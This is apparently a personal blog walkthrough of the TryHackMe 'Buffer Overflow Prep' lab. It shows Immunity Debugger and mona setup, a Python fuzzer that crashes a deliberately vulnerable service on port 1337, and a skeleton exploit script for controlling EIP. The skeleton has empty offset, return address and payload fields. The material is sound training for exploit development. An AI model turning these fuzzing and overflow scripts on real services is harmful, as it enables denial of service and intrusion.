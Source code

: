 
---
title: TryHackMe BufferOverflow
description: Buffer Overflow Prep
categories:
 - tryhackme

tags: tryhackme Bufferoverlow
---

## Summary

Practice stack based buffer overflows!


## Starting Immunity Debugger
![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_01_12.png)
Right-click the Immunity Debugger icon on the Desktop and choose "Run as administrator".


![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_02_29.png)

When Immunity loads, click the open file icon, or choose File -> Open. Navigate to the vulnerable-apps folder on the admin user's desktop, and then the "oscp" folder. Select the "oscp" (oscp.exe) binary and click "Open".

## Mona Configuration

Run these command in the input box at the bottom of the immunity Debugger window.

```
!mona config -set workingfolder c:\mona\%p

```
![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_03_54.png)


## Fuzzing

Run this python script to fuzz
```
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

```

![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_04_52.png)

Basically, this script is going to send increasingly long strings comprised of As. If the server gets crashed, the fuzzer should exit with an error message.
![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_05_45.png)

![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_06_06.png)

## Crash Replication & Controlling EIP
```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

